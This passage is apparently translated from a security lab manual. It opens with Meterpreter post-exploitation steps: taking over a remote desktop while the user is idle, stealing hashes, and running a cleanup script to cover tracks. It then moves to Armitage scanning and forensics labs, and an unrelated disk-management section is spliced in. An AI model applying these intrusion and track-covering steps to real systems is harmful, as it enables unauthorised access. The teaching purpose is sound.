你会看到用户 hacker 的用户名以及以下消息：“另一用户已登录。如果继续，他们将被断开连接。你仍要登录吗？”这就是 **idletime** 命令派上用场的地方。如果你看到的 **idletime** 值表明用户可能不在机器前（例如，如果他们大约 10 分钟左右没有触摸键盘），现在是尝试的好时机。单击“是”按钮。

在 Windows 10 VM 上，你现在会看到以下消息（显示你的机器名称）：“你是否允许 WEISSMAN-CLIENT\hacker 连接到此机器？”单击“确定”立即断开你的会话，或单击“取消”保持连接。没有任何操作将在 30 秒内断开你的会话。假设用户不在其计算机前（基于 **idletime** 的输出），30 秒将过去，hacker 账户将被登录。现在你不受 Meterpreter shell 或 Windows 命令提示符的限制，可以自由地与受害机器交互！窃取 Windows 密码哈希以及许多其他操作现在变得轻而易举！

在你在被入侵机器上完成活动后，

从 Meterpreter 关闭远程桌面窗口并在 Meterpreter 中运行以下清理脚本以删除添加的账户并掩盖你的痕迹：

```
run multi_console_command -r <file listed in output after you completed Step 6b>
```

由于 Windows 10 对注册表的更改，最后一个操作将失败。别担心。

在第 11 章中，你使用 Mimikatz 破解了 Windows 密码哈希。此步骤说明了你如何进入系统以获取哈希值。想象一下，现在攻击者拥有完整的 GUI 访问权限，会有什么可能性！

f. 从 Meterpreter，要么重启，要么关闭 Windows 10 VM（是的，你可以从 Meterpreter 执行这些操作），分别使用 **reboot** 或 **shutdown**。

就这样！

⏱ 10 MINUTES

## Lab Exercise 22.04: Armitage

Armitage 是 Metasploit Framework 的 GUI 前端。你将在本实验练习中使用它来发现主机系统。此实验练习将产生的流量高峰检测也是事件的良好指示，这可能导致事件响应。

## Learning Objectives

在本实验练习中，你将为你的工具库增加另一项工具。完成本实验练习后，你将能够

- 使用 Armitage 发现主机系统
- 理解这在目标网络上将如何表现为事件
- 能够将此实验练习中的信息用于端口扫描，这是逻辑上的下一步

pane at the **msf6 >** prompt.

b. 在 Armitage 界面中，在顶部菜单中，选择 Hosts | Nmap Scan | Quick Scan (OS Detect) 以发现子网上的所有主机。你需要提供你的网络 ID 和子网掩码，在大多数情况下将是 192.168.1.0/24，如对话框中所示。仅扫描你有权控制且已获授权扫描的网络，如第 16 章所述。

输入信息后单击“确定”按钮。

扫描完成后，所有发现设备的列表，包括 IP 地址、端口信息以及在某些情况下的操作系统，将出现在右上窗格中。大量有价值的信息将出现在下窗格中，如图 22-2 所示。



FIGURE 22-2 Armitage 发现了 Weissman 家中的许多系统。

下一步的逻辑步骤将是一些端口扫描，使用不同类型的扫描，如第 16 章所述。

## Lab Analysis

- 1. 什么是事件？
- 2. 什么是事件响应？
- 3. 为什么 Metasploit Framework 实验练习对于理解事件响应很重要？

## Key Term Quiz

使用下面的术语列表来完成以下句子。

- exploit
- front end
- payload
- shell
- vulnerability

- 1. SMB 是 a(n) ________。
- 2. EternalBlue 是 a(n) ________。
- 3. windows/meterpreter/reverse_tcp 是 a(n) ________。
- 4. 在受损的 Windows 系统上运行原生 Windows 命令之前，必须运行 ________ 命令。
- 5. Armitage 是 Metasploit Framework 的 a(n) ________。


### 开始吧！

开始之前，请访问 www.digital-detective.net/dcode/ 并点击页面底部附近的红色 Download DCode 按钮。然后将下载到下载文件夹的 ZIP 文件解压。在解压的文件夹中运行可执行文件，接受许可协议，并使用所有默认设置安装程序。在 Windows“保护您的电脑”警告窗口中，在安装开始之前，点击“更多信息”，然后点击“仍要运行”按钮。（正如消息所述，该应用被标记为未识别，而非恶意。）本程序将用于帮助您在本实验练习中解码 Windows 注册表时间戳。进行安装时，接受所有默认设置。

当您为本章制作屏幕截图时，请随意裁剪或涂黑您不想展示的内容。

1a–1c

1d

### 第 1 步 查找与 Wi-Fi 网络（SSID、日期等）相关的存储在注册表中的潜在敏感且有价值的信息。

- a. 点击开始按钮或在搜索框中输入 regedit 以打开注册表编辑器。在用户账户控制提示中点击“是”。

- b. 要浏览 Windows 注册表，您可以使用左侧窗格中的树，或直接在顶部地址栏中输入并按 ENTER。导航到 `Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\NetworkList\Profiles\`。此键包含有关您曾经连接过的所有 SSID（服务集标识符）/Wi-Fi 网络的数字证据。

- c. 点击每个 Profiles 子键。在右侧窗格中，您将看到具有三列的值：名称、类型和数据。见图 23-1。最感兴趣的值是 DateCreated、DateLastConnected、Description 和 ProfileName。在大多数情况下，ProfileName 和 Description 数据相同或会显示末尾带数字的变体。



图 23-1 注册表中的 Wi-Fi 网络数字证据

要解码 DateCreated 和 DateLastConnected 的 REG_BINARY 十六进制数据值，请启动 DCode。在顶部右侧的值输入部分中选择十六进制（小端）作为格式，将注册表编辑器中数据列的 32 个十六进制数字（不带空格）逐个输入 DCode 中的值字段，然后点击解码按钮。

如图所示 23-2，左侧将显示两个重要时间戳。第一个将以 UTC 时间显示时间戳，而第二个将使用您的时间区显示时间戳。要更改时区，点击右侧的“选择”按钮，做出选择，然后点击“确定”。日期输出下拉菜单可让您更改时间戳的格式（如果需要）。

已连接，在 DefaultGatewayMAC 的数据列中。



图 23-3 注册表中的路由器 MAC 地址数字证据

提交一张显示与您之前截图匹配的 DefaultGatewayMAC 值的数字证据屏幕截图。

- c. 解释此类信息对于取证调查为何可能具有重大意义。

3a, 3b

3c

### 第 3 步 查找与网络设置相关的存储在注册表中的潜在敏感且有价值的信息。

- a. 导航到 `Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters\Interfaces\`。

此键包含机器上所有接口的子键，其中包含网络设置的最近值，包括 IP 地址、子网掩码、默认网关、DNS 服务器、DHCP 服务器等



图 23-7 注册表中的打开或保存文件数字证据

- b. 提交一张显示您最近打开或保存的另一种类型文件的数字证据屏幕截图，以及显示其在 MRUListEx 中的十六进制值的相应屏幕截图。使用 OpenSavePidlMRU 的一个子键。

- c. 解释此类信息对于取证调查为何可能具有重大意义。

6a, 6b

6c

### 第 6 步 查找与最近使用的程序相关的存储在注册表中的潜在敏感且有价值的信息。

- a. 导航到 `Computer\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\ComDlg32\LastVisitedPidlMRU`。

此键与 OpenSaveMRU 键相关，提供进一步信息。当向 OpenSaveMRU 键添加新值时，会在此处创建相应值以包含最近使用的可执行文件的路径，该项目已保存到该路径或从该路径打开。仅会为程序文件名创建唯一条目，但当该程序在另一个文件夹中使用时，数据会更新。同样，MRUListEx 标识名称列中数字的顺序。请注意在图 23-8 中，我一直在用 SnippingTool.exe 来制作本书的屏幕截图。



图 23-8 注册表中的程序使用数字证据

- b. 提交一张显示您最近使用的程序的数字证据屏幕截图。

- c. 解释此类信息对于取证调查为何可能具有重大意义。

7a, 7b

7c

### 第 7 步 查找与 USB 设备相关的存储在注册表中的潜在敏感且有价值的信息。

- a. 导航到 `Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Enum\USB`。

此键将显示有关已插入此机器的 USB 设备和存储卡的信息，包括时间戳和硬件标识符。

您会找到手机、相机、平板电脑、网络摄像头、存储卡、U盘等。请注意在图 23-9 中，我发现了有关我连接到正在使用的笔记本电脑的 iPhone 的信息。



图 23-9 连接到我的笔记本电脑的手机数字证据

您还会注意到以下 VID 号码及其对应的制造商。简单的 Google 搜索将揭示我光顾的一些供应商（搜索“VID”及 4 位数字）。

| VID | 制造商 |
|-----|-------------|
| VID 043E | LG Electronics USA |
| VID 045E | Microsoft Corp. |
| VID 046D | Logitech, Inc. |
| VID 04A9 | Canon, Inc. |
| VID 04F2 | Chicony Electronics Co. |
| VID 058F | Alcor Micro Corp. |
| VID 05AC | Apple, Inc. |

如图所示 23-10，我发现了我 Blue Yeti 立体声麦克风的数字证据。

图 23-10 连接到我的笔记本电脑的 USB 麦克风数字证据

此键还可用于通过查看设备序列号键的最后写入时间来识别 USB 设备上次连接到系统的最后时间。

## 实验练习 23.02：RAM 和硬盘上的数字证据

RAM（随机存取存储器）中存储了什么？很 literally，每个打开或运行的文件和程序都存储在 RAM 中。RAM 中的数字证据可能包括文件数据、运行程序的信息、图片、网页浏览和通信信息、用户名和密码，以及私钥、进程信息、恶意软件、剪贴板内容等。

从网络世界来看，取证调查员在 RAM 中可以找到的一些例子包括 ARP 缓存、DNS 缓存，以及网络连接信息，包括 IP 地址、端口等（来自 netstat）。

RAM 是易失性的。当您关闭机器时，RAM 的内容会被擦除。

硬盘是非易失性的，也是一个很好的数字证据来源。当文件被删除时，它仍然停留在硬盘上的原位。操作系统会将该位置放回可写入的地址池中，但数据仍然存在。因此，搜索硬盘的未分配区域对于取证调查员来说非常有益，即使文件系统不识别这些位置。

可以在 HDD（硬盘驱动器）或 SSD（固态驱动器）等存储设备上访问的最小单元是扇区。由扇区组成或构成操作系统文件系统中文件分配的最小单元的组或分配单元称为簇。默认簇大小为 4 KB（4096 字节）。虽然硬盘可以寻址扇区，但操作系统只能访问簇。因此，操作系统以簇组而不是扇区存储文件。假设一个文件大小为 3000 字节。它将被分配到一个簇，因为它小于 4096 字节。如果一个文件长度为 5000 字节，它将被分配到两个簇，因为它大于 4096 字节且小于 8193 字节（字节号 8193 需要第三个簇）。这就是为什么当您右键单击一个文件时，您会看到大小包含一个


值和磁盘上的大小包含一个更高的值，四舍五入到下一个 4 KB 簇大小。我现在正在编辑以撰写本实验练习的文件显示大小为 40.9 KB，磁盘上的大小为 44.0 KB。这意味着该文件仅使用了分配给它的最后一个簇的 4 KB 中的 0.9 KB。文件碎片表示文件末尾与文件存储所在的最后一个磁盘簇末尾之间的空间。这意味着，如果我不再向此文件写入任何内容，先前硬盘上该点所在的其他信息的 3.1 KB 将可用。即使我创建一个新文件，也不用担心 3.1 KB 的文件碎片会被写入，因为该簇属于此文件。

## 学习目标

在本实验练习中，你将战略性地在易失性和非易失性存储区域中搜索数字证据。本实验练习结束时，你将能够

- 在 RAM 中查找数字证据
- 在硬盘上查找数字证据

## 实验材料和设置

本实验所需的材料有

- 《计算机安全原理：CompTIA Security+ 及更远》教科书
- 任何 Windows 10 机器（主机或 VM）
- 具有 Internet 连接的 Google Chrome 网络浏览器

## 开始吧！

开始前，访问 https://mh-nexus.de/en/hxd/。向下滚动页面查看几个下载链接。第一个是最新的/当前的。点击该部分中的 Download Page。

选择一个下载链接并点击 Download Per HTTPS。我选择了从顶部数起的第五个，English Installable。

解压 ZIP，运行 HxDSetup.exe 安装程序。在用户账户控制提示时点击 Yes（Windows 警告此应用程序来自未知发布者，而不是应用程序为恶意）。点击 Language 中的 OK

**FIGURE 23-11** URL, username, and password in plaintext in RAM

手动搜索每个进程的 RAM 分配。加密适用于传输中和静态数据，但不适用于正在使用的数据。TLS（传输层安全）在这里无济于事。

在实际取证调查中，你可能不知道用户名，更不用说密码了，因此按字符串 username= 或 password= 搜索是寻找潜在凭据的方法。有时网页表单使用的字段名称会有所不同，并会有包括字符串 id= 和 pass= 在内的变体。

不幸的是，你会得到很多误报，所以继续努力，直到找到一些可用的真实数字证据为止。

- d. 你可能会看到可能与犯罪相关的其他关键词，以确定或排除嫌疑人，或弄清网络攻击中发生了什么。至少使用三个这样的热门词进行搜索，看看是否会出现相关内容。

嫌疑人的系统，你可以使用注册表查找最近由该工具打开或保存的文件，并对可能隐藏其他文件的一定文件有一个想法。

实际上，检测隐写术非常困难，而且由于加密的原因，从其他文件中恢复隐藏文件几乎不可能，如果不是不可能的话，就像你将在本实验练习中看到的那样。

## 学习目标

在本实验练习中，你将隐藏并从其他文件中恢复文件。本实验练习结束时，你将能够

- 理解隐写术的工作原理
- 使用多种工具进行隐写术以隐藏文件
- 使用多种工具进行隐写术以从隐藏中恢复文件
- 理解为什么在隐写术中隐藏比恢复容易得多

## 实验材料和设置

本实验所需的材料有

- 《计算机安全原理：CompTIA Security+ 及更远》教科书
- 任何 Windows 10 机器（主机或 VM）
- 具有 Internet 连接的网络浏览器

## 开始吧！

从 https://www.softpedia.com/get/Security/Encrypting/Hide-N-Send.shtml 下载 Hide’N’Send。解压 ZIP 文件。

从 https://www.insecure.in/steganography.asp 或 https://packetstormsecurity.com/files/download/21688/s-tools4.zip 下载 S-Tools。

- k. 点击 Extract 选项卡。
- l. 点击 Image 部分中的文件夹图标，然后浏览并选择隐藏了文本文件在其中的图像。
- m. 点击 Extraction Directory 部分中的文件夹图标，然后浏览并选择你的桌面。
- n. 点击 EXTRACT 按钮。
- o. 提供并确认密码。应出现一条弹出消息“Data successfully extracted!” 点击 OK 关闭它。
- p. 你现在将能够在桌面上看到并阅读隐藏在 JPEG 中的文件。

2d–g, 2m–n

2i

### Step 2 Hide a file in another file and unhide the hidden file again, this time with a different program.

- a. 在解压的文件夹内（将根据你从哪个链接下载程序而称为 S-Tool 或 s-tools4），点击 S-Tools.exe 启动程序。
- b. 该程序要求目标文件为位图图像（BMP）。将 BMP 保存或复制到解压的文件夹中。你可以从这里获取：www.fileformat.info/format/bmp/sample/index.htm。
- c. 这次，在解压的文件夹中创建多个文本文件并填充一些数据。
- d. 将你选择的 BMP 拖到 S-Tools 窗口中，如图 23-13 所示。

**Add file to image**

**Step 1: Select the target file:**

| Property | Value |
| --- | --- |
| Name | MARBLES.BMP |
| Size | 1419 x 1001 |
| Resolution | 24 bits |

Load Target File

Back

Next

Finish

**FIGURE 23-13** The target file in which another file will be hidden

- e. 选择你创建的所有文本文件（CTRL-click），并将该组拖放到 S-Tools 中的 BMP 上。

- f. 随意保留或更改加密算法。提供并验证密码，如图 23-14 所示，然后点击 OK 按钮。





**FIGURE 23-14** Hiding multiple files in the target file

- g. 一个标题栏中带有“hidden data”的新图像将出现。右键点击该图像，选择 Save As，为隐藏文件的文件名添加 .bmp 扩展名，并将其保存到解压的文件夹中。
- h. 关闭 S-Tools。
- i. 通过外观和大小比较原始 BMP 与你刚刚隐藏了文本文件其中的 BMP。它们在视觉上如何比较？文件的大小如何比较？
- j. 重新打开 S-Tools。
- k. 将 hidden.bmp 拖到 S-Tools 窗口中。
- l. 右键点击图像，选择 Reveal，输入并验证密码，选择加密算法（如果尚未选择），然后点击 OK 按钮。
- m. 你将在 Revealed Archive 中看到已揭示的文件。右键点击每个文件，点击 Save As，并将其保存到桌面。你现在将能够在桌面上看到并阅读隐藏在 BMP 中的文件。
- n. 再试一次，但这次在 BMP 中隐藏一个 JPEG 图像。你只能使用足够小以隐藏在 BMP 中的 JPEG，因此如果收到你的 JPEG 太大的消息，请找到一个更小的。

1–2 hours

## Lab Exercise 23.04: Imaging, Recovering Deleted Files, File Signatures, and Analyzing Images

位流复制按位复制硬盘、闪存驱动器或其他存储介质。因此，位流映像，即包含位流复制的文件，被认为是原版的精确副本。取证调查人员绝不应在原件上工作，而应始终在位流副本上工作。获取位流映像后应做的第一件事是对原件和位流映像进行哈希

## 实验材料和设置

本实验所需的材料有

- 《计算机安全原理：CompTIA Security+ 及更远》教科书
- 任何 Windows 10 机器（主机或 VM）
- 一个 USB 闪存驱动器
- 具有 Internet 连接的网络浏览器

## 开始吧！

在 www.autopsy.com/download/ 下载 Autopsy。安装期间接受所有默认值。

1c, 1g, 1i–1m。随意裁剪或涂黑屏幕截图的任何部分。

### Step 1 Create files and folders on a flash drive and then delete them. Use Autopsy to attempt to recover the deleted items.

- a. 从桌面快捷方式、开始按钮或搜索框启动 Autopsy。右键点击图标并选择 Run As Administrator。
- b. 对于 Enable Central Repository 问题，点击 Yes。
- c. 在闪存驱动器上，创建一个文本文件、Word 文档、Excel 电子表格和文件夹。同样复制一张图像到闪存驱动器的根目录。重命名所有文件，使用你容易识别的名称，例如今天的日期。
- d. 在 Autopsy 中，点击 New Case。在 Case Information 屏幕上，填写 Case Name，并为 Base Directory 和 Case Type 保留默认值。
- e. 填写 Optional Information，视情况而定，然后点击 Finish 按钮。
- f. 对于 Select Type Of Data Source To Add 屏幕，保留 Local Disk 的默认选择并点击 Next。
- g. 点击 Select Data Source 屏幕顶部的 Select Disk 按钮，选择 USB 驱动器，然后点击 OK。
- h. 点击 Next，点击 Next 并选择 Ingest Modules，然后点击 Finish。


## 2.2 盘和文件系统管理

磁盘（Disk）是计算机系统中存储数据的主要设备，文件系统（File System）是操作系统管理和存储文件的方法。在 Windows 系统中，常见的磁盘管理工具有磁盘管理（Disk Management）和命令行工具 DiskPart。文件系统常见的有 FAT32、NTFS 等。

磁盘管理是 Windows 系统提供的一个图形化管理工具，可以查看和管理磁盘分区、格式化磁盘、更改驱动器号等。DiskPart 是命令行下的磁盘管理工具，功能更加强大，可以完成许多磁盘管理任务。

- 查看磁盘信息
- 创建和删除分区
- 格式化磁盘
- 分配驱动器号
- 扩展和压缩卷

> 注意：格式化磁盘会清除磁盘上的所有数据，请谨慎操作。

前往 https://images.google.com/ 并使用 Google 图片搜索一个 JPEG/JFIF 文件以及一个带有 EXIF 元数据的 JPEG 文件。将文件从网站下载到你的硬盘中，并在 HxD 中打开它们。继续操作直到你各获得一个。截取每个文件的头信息。

- c. 前往我的 FLCC 页面 https://www.flcc.edu/directory/staff-profile.cfm?email=Jonathan.Weissman@flcc.edu&dept=430。
- 下载我的头像并检查 EXIF 数据。照片拍摄的日期和时间是什么？

- d. 用 HxD 打开任意一个 JFIF 文件，将 FF D8 FF E1 签名更改为 46 4C 43 43，通过在左侧窗格中点击并输入新的十六进制数字。你会注意到在解码文本部分出现了 FLCC 的 ASCII/Unicode 字符。
- 参考 asciitable.com 获取一个很好的字符值映射表。
- 选择 FLCC 中的最后一个 C 并按下键盘上的小写 c。你会注意到十六进制数字 43 变成了小写 c 的值 63。现在将 63 改回 43，并观察小写 c 变回大写 C。

- e. 点击 File，点击 Save As，输入文件名 flcc.jpg，浏览到桌面，然后点击 Save 按钮。

- f. 在桌面上双击 flcc.jpg 文件。会发生什么？为什么？

- g. 如果嫌疑人想进行反取证并挫败任何取证调查，那么嫌疑人是更改文件的扩展名还是更改文件的签名更好？为什么？

3c–3e

# Step 3 In this last step of the lab exercise, you can pivot in many different directions.

你即将进入一个精彩的取证场景的世界，其中包含文档、工件和证据。该场景描述如下，来自 https://digitalcorpora.org/corpora/scenarios/m57-patents-scenario：
